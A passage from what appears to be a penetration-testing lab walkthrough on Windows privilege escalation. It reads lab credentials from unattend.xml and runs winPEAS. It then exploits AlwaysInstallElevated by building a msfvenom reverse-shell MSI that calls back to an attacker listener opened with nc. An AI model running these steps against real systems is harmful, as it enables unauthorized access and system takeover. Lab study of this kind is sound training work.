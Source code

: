     type C:\Windows\Panther\unattend.xml
    # this includes the creds 'iamtheadministrator:Inl@n3fr3ight_sup3rAdm1n!'
    # for domain INLANEFREIGHT

    net users
    # this user is not mentioned anywhere

    # we can try to check for other methods to search for privesc vectors
    ```

    ```ps
    # on attacker, copy winpeas.ps1 to /tmp

    # on target Windows, copy the winpeas.ps1 file from 'share' to Desktop

    cd Desktop

    .\winPEAS.ps1
    # Windows 10 Pro, build 18363
    # most recent hotfix is KB4528760

    # winpeas shows AlwaysInstallElevated is set to 1
    # we can try exploiting it with msfvenom msi package
    ```

    ```sh
    # on attacker
    # setup listener
    nc -nvlp 9443

    # generate malicious MSI file
    msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi
    # transfer this to target machine
